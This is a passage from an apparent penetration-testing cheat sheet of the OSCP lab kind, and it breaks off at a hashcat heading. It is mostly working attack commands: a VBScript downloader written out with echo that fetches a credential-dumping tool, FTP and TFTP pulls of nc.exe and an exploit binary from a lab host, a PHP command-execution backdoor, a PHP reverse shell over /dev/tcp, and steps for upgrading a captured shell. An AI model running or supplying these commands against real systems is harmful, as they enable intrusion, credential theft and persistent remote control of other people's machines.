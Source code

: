 > echo varByteArray = http.ResponseBody &gt;&gt; wget.vbs  
> echo Set http = Nothing &gt;&gt; wget.vbs  
> echo Set fs = CreateObject\("Scripting.FileSystemObject"\) &gt;&gt; wget.vbs  
> echo Set ts = fs.CreateTextFile\(StrFile, True\) &gt;&gt; wget.vbs  
> echo strData = "" &gt;&gt; wget.vbs  
> echo strBuffer = "" &gt;&gt; wget.vbs  
> echo For lngCounter = 0 to UBound\(varByteArray\) &gt;&gt; wget.vbs  
> echo ts.Write Chr\(255 And Ascb\(Midb\(varByteArray,lngCounter + 1, 1\)\)\) &gt;&gt; wget.vbs  
> echo Next &gt;&gt; wget.vbs  
> echo ts.Close &gt;&gt; wget.vbs  
> → cscript wget.vbs [http://10.11.0.6/wce32\_upx.exe](http://10.11.0.6/wce32_upx.exe) wce32\_upx.exe  
> ▪ FTP Non interactive mode  
> → ftp -A 10.11.0.106  
> → binary  
> → GET nc.exe  
> → bye  
> ▪ TFTP  
> → tftp -i 10.11.0.106 GET exploit.exe

## SHELLS

Spawning a TTY Shell - Break out of Jail or limited shell You should almost always upgrade your shell after taking control of an apache or www user \(For example when you encounter an error message when trying to run an exploit sh: no job control in this shell \)

Interactive shell:

> $python -c 'import pty; pty.spawn\("/bin/bash"\)' $ echo os.system\('/bin/bash'\)

Adjust Interactive shell:

> $ Ctrl-Z  
> $ echo &gt; $TERM //find term $ stty raw -echo //disable shell echo  
> $ fg  
> $ reset  
> $ export SHELL=bash  
> $ export TERM=xterm

Php backdoor:

> $ &lt;?php echo shell\_exec\( &gt; $\_GET\['cmd'\]\);?&gt;

Php shell:

> $ &lt;?php echo shell\_exec\('bash -i &gt;& /dev/tcp/10.11.0.106/443 0&gt;&1'\);?&gt;  
> $

## PSSWD CRACKING

```text
> $ Look for the hash in online databases
```

Hashcat:
